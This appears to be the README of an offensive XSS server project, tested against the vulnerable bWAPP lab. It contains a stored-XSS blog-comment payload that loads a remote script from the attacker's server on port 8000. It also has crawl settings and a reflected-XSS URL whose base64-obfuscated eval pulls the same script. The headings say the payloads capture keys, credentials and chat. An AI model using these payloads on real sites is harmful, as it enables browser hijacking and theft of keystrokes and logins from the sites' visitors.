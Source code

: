 # xss_server

How to test:
- docker run -d -p 80:80 digitalpipelines/bwapp-docker
- git clone https://github.com/chickenidol/xss_server.git
- cd xss_server/docker && mkdir db && docker build -t test:xss_server . --no-cache
- docker run -ti -v $(pwd)/db:/xss_server/client/db  -p 8000:80 test:xss_server



1) Stored XSS, keys, creds, chat
	- Place blog message:
```
Hi, nice blog!
<script>
    let client_id = `someid`
    const urlParams = new URLSearchParams(window.location.search);
    const linkId = urlParams.get(`linkId`)

    if (linkId)
        client_id = linkId

    let main_script = document.createElement(`script`)
    main_script.src = `http://127.0.0.1:8000/main.js/` + client_id
    document.body.appendChild(main_script)
</script>
```

- Open link: http://127.0.0.1/xss_stored_1.php or http://127.0.0.1/xss_stored_1.php?linkId=wefwe

2) Stored XSS, keys, creds, chat, crawl
	- in crawl.js change iframe.src = "http://127.0.0.1/";
	- set const HOST_TO_CRAWL = "127.0.0.1"
	- uncomment crawl block in crawl.js

3) Reflected.
   - Open http://127.0.0.1/xss_get.php?firstname=%3Cscript%3Eeval(atob(`dmFyIHU9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7dS5zcmM9Imh0dHA6Ly8xMjcuMC4wLjE6ODAwMC9tYWluLmpzL2V3ZmV3ZndlZiI7ZG9jdW1lbnQuYm9keS5hcHBlbmQodSk7`))%3C%2Fscript%3E&lastname=test&form=submit

